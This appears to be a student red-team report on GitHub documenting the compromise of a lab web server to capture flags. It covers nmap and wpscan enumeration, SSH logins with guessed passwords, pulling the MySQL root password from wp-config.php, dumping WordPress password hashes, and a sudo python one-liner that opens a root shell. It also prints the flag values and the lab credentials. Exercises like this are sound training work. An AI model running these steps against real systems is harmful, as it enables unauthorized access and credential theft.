 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exposed-services)
- [Critical Vulnerabilities](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#critical-vulnerabilities)
- [Exploitation](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exploitation)

## Exposed Services
Nmap scan results for 192.168.1.110 reveal the below services and OS details:  
~~~
nmap -sV 192.168.1.110  
~~~

![red111](https://user-images.githubusercontent.com/32025331/155897831-3ed2d82f-ea06-4b2b-88a5-ca45a22de921.PNG)   

This scan identifies the services below as potential points of entry:  
  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  

## Critical Vulnerabilities

The following vulnerabilities were identified:

**CWE-521 - Weak server password**
- Server does not require strong user passwords, making it vulnerable to brute force attacks. 
- *Severity:* High

**CWE-916 - Unsalted hashed passwords**
- Hashed passwords that are unsalted can be easily cracked using free softare like john the ripper.
- *Severity:* Medium  

**CWE-79 - Unpatched WordPress software (Version 4.8.18)**
- 
- 
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


### flag1{b9bbcb33e11b80be759c4e844862482d}
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  

![red10](https://user-images.githubusercontent.com/32025331/155897106-083e1297-c5d6-490f-af59-1ac251500554.PNG)


- From there we ran wpscan: 
~~~
wpscan -–url http://192.168.1.110/wordpress --wp-content-dir -at -eu
~~~
![red13](https://user-images.githubusercontent.com/32025331/155897592-cb46a654-efc7-48f6-a220-833e3841df88.PNG)  

We then found two login names: Steven and Michael  
![red14](https://user-images.githubusercontent.com/32025331/155897593-ce8c5a5b-778a-486d-9d9d-c38249113aa4.PNG)  

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/html
grep -RE flag1
~~~
![red222](https://user-images.githubusercontent.com/32025331/155898152-706f9b4c-607d-4a1a-83f1-742a2217463d.PNG)  
  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
Using the same credentials, we SSH into the webserver:
~~~ 
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/
grep -RE flag2
~~~
![red15](https://user-images.githubusercontent.com/32025331/155897666-7187d4ef-e7dc-4231-985f-f4c87a644dfa.PNG)


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red444](https://user-images.githubusercontent.com/32025331/155898231-ca6b815e-0a07-46dd-a844-b6eaf18d26cb.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red443](https://user-images.githubusercontent.com/32025331/155898281-266c6765-2025-49e4-96d2-a7b4f359dbd8.PNG)  
  
**Flag 4 from Steven’s account**  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
![red555](https://user-images.githubusercontent.com/32025331/155898316-716315ab-4684-4dbe-bbad-8c096ebbd92a.PNG)  
We found the hashed passwords within the wp_users table.  
Exit back out to Kali. From here we can use John the Ripper:  

SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
